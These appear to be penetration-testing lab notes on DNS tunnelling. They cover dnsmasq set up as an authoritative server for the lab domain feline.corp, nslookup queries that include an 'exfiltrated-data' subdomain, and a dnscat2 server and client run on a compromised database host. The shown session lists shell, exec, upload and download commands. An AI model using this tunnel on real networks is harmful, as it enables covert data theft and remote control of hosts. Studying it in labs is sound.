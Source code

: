 * -C: start the dnsmasq process with the `dnsmasq.conf` configuration file
* -d: runs in "no daemon" mode so it runs in the foreground

```bash
sudo dnsmasq -C dnsmasq.conf -d
```

Check the client DNS settings

```bash
resolvectl status

nslookup exfiltrated-data.feline.corp
nslookup -type=txt www.feline.corp
```

A **dnscat2** server runs on an authoritative name server for a particular domain

```bash
dnscat2-server feline.corp
```

Run the dnscat client binary on PGDATABASE

```bash
./dnscat feline.corp
```

This configuration ignores the `/etc/resolv.conf` and `/etc/hosts` files and only defines the `auth-zone` and `auth-server` variables. These tell Dnsmasq to act as the authoritative name server for the feline.corp zone.

`dnsmasq_txt.conf`

```
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```

```
$ dnscat2-server feline.corp
dnscat2> windows
dnscat2> window -i 1
command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
```